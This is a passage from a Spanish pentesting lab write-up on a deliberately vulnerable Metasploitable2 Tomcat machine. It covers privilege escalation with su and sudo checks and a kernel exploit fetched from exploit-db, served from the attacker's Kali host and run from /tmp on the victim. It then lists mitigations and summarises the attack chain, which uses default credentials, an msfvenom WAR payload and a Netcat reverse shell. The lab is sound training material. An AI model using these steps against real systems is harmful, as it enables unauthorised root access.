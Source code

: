 Una vez que tengamos una credencial válida de root o un usuario sudo, probamos:

```bash
su root
su msfadmin
```

Y despues:

```bash
sudo -l
```

Si no tenemos credenciales pero encontramos un **exploit local** (como para Linux 2.6.24) lo subimos y compilamos en nuestra Kali:

```bash
# En Kali
wget https://www.exploit-db.com/raw/9542 -O exploit.c
gcc exploit.c -o exploit
python3 -m http.server 8080

# En la víctima
cd /tmp
wget http://<IP_KALI>:8080/exploit
chmod +x exploit
./exploit
```

Una vez como root:

```bash
whoami > /tmp/root.txt
cat /tmp/root.txt | tee ~/Pentesting/Metasploitable2/ApacheTomcat/post-explotacion/root.txt
```


## 🕵️ Paso 12: Pivoting y explotación de otros servicios.




## 🛡️ Paso 1: Mitigaciones

- No usar credenciales por defecto.
- Restringir el acceso a /manager/html por IP.
- Usar HTTPS y autenticación fuerte.
- Deshabilitar el despliegue remoto si no es necesario.
- Mantener Tomcat actualizado.

## 📜 Resumen del ataque

1. Escaneo con Nmap -> Apache Tomcat detectado.
2. Acceso al panel /manager/html.
3. Uso de credenciales por defecto tomcat:tomcat
4. Creación de payload WAR con msfvenom.
5. Despliegue en el panel de administración.
6. Ejecución del WAR -> reverse shell con Netcat.
7. Enumeración y post-explotación.
